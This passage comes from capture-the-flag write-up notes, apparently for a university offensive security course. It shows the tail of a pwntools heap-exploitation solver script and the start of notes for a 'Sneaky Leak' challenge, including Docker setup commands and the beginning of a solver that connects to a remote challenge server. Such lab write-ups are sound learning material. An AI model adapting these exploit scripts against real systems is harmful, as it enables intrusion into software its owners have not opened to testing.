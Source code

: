 ```python
  conn.sendline(b'1')
  
  conn.recvuntil(b'>')
  conn.sendline(b'1')

  conn.recvuntil(b'>')
  conn.sendline(b'1')

  answer_heap(str(leak))

def make():
  conn.recvuntil(b'>')
  conn.sendline(b'3')

def quit():
  conn.recvuntil(b'>')
  conn.sendline(b'4')

def answer_heap(message):
  conn.recvuntil(b'?\n')
  conn.send(message.encode())

setup("go", "5", "ok")
answer_heap("ok")
make()
answer_heap("ok")
edit()
answer_heap("ok")
make()
print(conn.recv())
```

#### Get the Flag
![[Pasted image 20241119173602.png]]
### Sneaky Leak

#### Setup Docker container
Setup directory to port over to interactive later
![[Pasted image 20241119172633.png]]
Once the files are in our directory, we can build the container from `Dockerfile`
```bash
docker build -t ubuntu2004 .  
```
And then launch an interactive terminal session within the container we just built
```bash
docker run --rm -it -v `pwd`:/chal ubuntu2004
```
#### Static Analysis in IDA
![[Pasted image 20241119175227.png]]
#### Solver Script
```python
from pwn import *

local = False
binary = './sneaky_leak'

if not local:
    conn = remote('offsec-chalbroker.osiris.cyber.nyu.edu', 1210)
    conn.recvuntil(b':')
    conn.sendline('vqv9731')
else:
```
